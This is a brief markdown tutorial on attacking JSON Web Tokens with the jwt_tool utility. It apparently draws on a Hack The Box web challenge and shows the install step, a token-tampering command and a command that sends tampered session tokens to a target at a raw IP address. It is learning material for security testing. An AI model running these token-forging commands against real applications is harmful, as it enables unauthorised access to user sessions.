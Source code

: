 # JWT Toolkit: Attacking JWT Tokens

1. Download [JSON Web Token Toolkit](
https://github.com/ticarpi/jwt_tool.git)
2. Install required libraries

        pip3 install pycryptodomex

3. Tamper an existing JWT token by passing `-T` option

        python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw -T

4. Send tampered tokens directly to a target application

        python jwt_tool.py -t http://165.232.35.118:30532/ -rc "session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw" -cv "Welcome" -M er

## References

* https://www.tariqhawis.com/htb-under-construction-web-challange/
* https://github.com/ticarpi/jwt_tool/wiki
* https://www.pingidentity.com/en/company/blog/posts/2019/jwt-security-nobody-talks-about.html
